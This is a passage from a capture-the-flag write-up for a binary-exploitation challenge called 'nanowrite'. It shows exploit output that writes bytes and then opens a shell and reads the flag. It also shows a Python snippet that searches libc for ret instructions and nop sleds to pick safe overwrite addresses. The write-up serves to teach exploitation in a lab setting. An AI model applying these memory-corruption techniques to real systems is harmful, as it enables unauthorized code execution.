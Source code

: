 ```
0x280e83
0x280ecf
0x2800cf
0x280087
0x1a0087
0x1a1a87
0x1a1ac9
0x1ad3c9
0x1ad322

put 0x31 in 1
put 0x71 in 0
put 0x28 in 2
put 0x83 in 0
put 0xe in 1
put 0xcf in 0
put 0x0 in 1
put 0x87 in 0
put 0x1a in 2
put 0x1a in 1
put 0xc9 in 0
put 0xd3 in 1
put 0x22 in 0

[*] Switching to interactive mode
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ ls -l
total 28
-r-xr-x--- 1 ctf ctf    42 Apr 16 00:54 flag.txt
-r-xr-x--- 1 ctf ctf 19288 Apr 17 09:57 nanowrite
-r-xr-x--- 1 ctf ctf    88 Apr 16 01:00 run_problem.sh
$ cat flag.txt
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


#### Flag

```
WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}
```


### _Alternative Ending_

While there are some other minor changes to [exploit2.py](exploit2.py) the meat of the change is in the _computing safe address..._ section:

```python
def nopsled(addr):
    a = []
    for i in range(len(nops)-1,-1,-1):
        if code[addr-i-1:addr] == nops[i].to_bytes(i+1,byteorder='big'):
            a.append(addr-i-1)
            a += nopsled(addr-i-1)
    return a

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['printf'] or i == gadget:
        addrs.append((baselibc + i) & 0xFFFFFF)
        addrs += [((baselibc + x) & 0xFFFFFF) for x in nopsled(i)]
```